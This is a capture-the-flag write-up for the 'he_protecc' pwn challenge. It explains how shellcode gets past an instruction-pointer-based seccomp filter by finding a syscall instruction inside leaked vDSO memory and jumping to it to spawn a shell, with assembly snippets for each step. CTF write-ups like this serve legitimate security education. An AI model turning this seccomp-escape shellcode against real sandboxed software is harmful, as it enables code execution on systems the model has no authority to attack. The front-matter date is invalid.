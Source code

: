 ```yaml
---
layout: ../../../layouts/BlogLayout.astro
title: "he_protecc: CornCTF 2025"
date: 2024-20-06
author: "ub1k"
tags: ["pwn"] 
image: "./images/cover.png"
---
```



# he_protecc: CornCTF 2025

> **Solved by: Ub1k**, **Writeup by: Ub1k**

# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](images/he_protecc-013.png)
## mmap my beloved

<Callout type="info">
**mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.
</Callout>

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](images/he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

<Callout type="info">
As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.
</Callout>

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](images/he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

<Callout type="info">
**vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))
</Callout>

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](images/he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits to align the address to a page start, but in our case it doesn't matter.
Now let's scan the memory area for a syscall, remember that the opcode is `0x0F05` but we are in little-endian:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and takes two bytes, it then checks if the bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

and boom, we have a shell.

